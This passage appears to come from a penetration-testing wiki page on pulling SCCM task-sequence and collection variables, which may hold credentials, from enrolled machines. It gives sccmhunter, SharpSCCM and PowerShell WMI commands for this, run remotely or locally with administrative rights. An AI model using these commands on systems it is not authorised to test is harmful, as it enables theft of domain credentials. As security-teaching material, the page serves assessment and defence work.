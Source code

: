 {% tabs %}
{% tab title="UNIX-based" %}
From UNIX-like systems, with administrative privileges over a device enrolled in the SCCM environment, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used to extract the TaskSequence variables remotely.

```powershell
# Extracting from WMI repository root\ccm\policy\Machine\ActualConfig namespace:
python3 sccmhunter.py dpapi -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -target $TARGET_IP -wmi

# Extracting from WMI repository OBJECTS.DATA file:
python3 sccmhunter.py dpapi -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -target $TARGET_IP -disk
```
{% endtab %}

{% tab title="From Windows" %}
From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) or a PowerShell command can be used with, administrative rights, to extract the collection variables locally.

```powershell
# Locally from WMI 

Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_CollectionVariable

# Locally from CIM store
SharpSCCM.exe local secrets -m disk

# Locally from WMI
SharpSCCM.exe local secrets -m wmi
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
